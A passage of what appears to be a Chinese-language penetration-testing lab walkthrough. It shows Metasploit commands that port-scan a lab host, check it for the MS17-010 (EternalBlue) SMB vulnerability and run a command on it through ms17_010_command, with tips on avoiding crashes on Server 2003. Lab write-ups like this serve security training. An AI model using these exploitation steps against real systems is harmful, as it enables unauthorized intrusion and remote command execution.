 ![image-20220526132907686](images/41.png)

访问成功

这里因为win7前面发现有nmap了，我就直接那nmap扫的，但是这里挂上代理后也可以扫

```
use auxiliary/scanner/portscan/tcp
set rhosts 192.168.52.141
set threads 100
run
```

## 拿域成员和域控

前面扫到了两台主机都存在永恒之蓝漏洞，用同样的方式拿下，这里就只演示一台

```
use auxiliary/scanner/smb/smb_ms17_010
set rhost 192.168.52.141
run
```

![image-20220526135001539](images/42.png)

成功扫到

注意一下，msf内置的17-010打2003有时候多次执行后msf就接收不到session，而且ms17-010利用时，脆弱的server 2003非常容易蓝屏

所以利用auxiliary/admin/smb/ms17_010_command直接执行命令

```
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.52.141
set command whoami
run
```
